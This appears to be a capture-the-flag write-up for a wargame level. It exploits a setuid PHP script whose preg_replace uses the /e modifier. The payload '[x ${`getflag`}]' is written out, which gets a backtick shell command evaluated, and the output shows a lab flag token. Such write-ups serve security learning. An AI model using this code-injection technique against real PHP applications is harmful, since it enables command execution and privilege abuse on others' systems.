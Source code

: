 When we started the level06, in the home of the user we found the two files:
- **level06** which is a binary file.
- **level06.php** which is the source of the binary.

Here are permissions:
```bash
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Which means that the binary file can execute getflag.

With this idea in mind, we read the php file.
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

It use regex to modify a string.
The important part is "``preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)``".
In PhP, the /e regex balise is used to evaluate what we pars as a command.

By creating a file like this:
```bash
echo '[x ${`getflag`}]' > /tmp/test.txt
```

And executing the binary file like this:

```bash
./level06 /tmp/test.txt
```

We get:
```bash
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
Because the regex will first go through the regex ``"/(\[x (.*)\])/e"``
which will then go in ``"y(\"\\2\")"`` which is executed as a command.

Since we wrote ``${`getflag`}`` it will execute the argument getflag as a function so give the flag.